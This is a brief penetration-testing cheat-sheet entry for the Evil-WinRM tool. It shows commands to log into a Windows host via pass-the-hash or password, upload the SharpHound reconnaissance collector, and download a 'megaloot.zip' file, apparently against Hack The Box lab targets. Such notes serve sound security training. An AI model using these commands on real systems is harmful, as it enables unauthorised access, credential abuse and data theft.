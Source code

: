 https://github.com/Hackplayers/evil-winrm
## Evil-WinRM
```
# Login with Hash
evil-winrm -i 192.168.100.101 -u username -H hash

# Login with Password
evil-winrm -i ghost.htb -u username -p '1S@t'

upload SharpHound.exe

download megaloot.zip
```
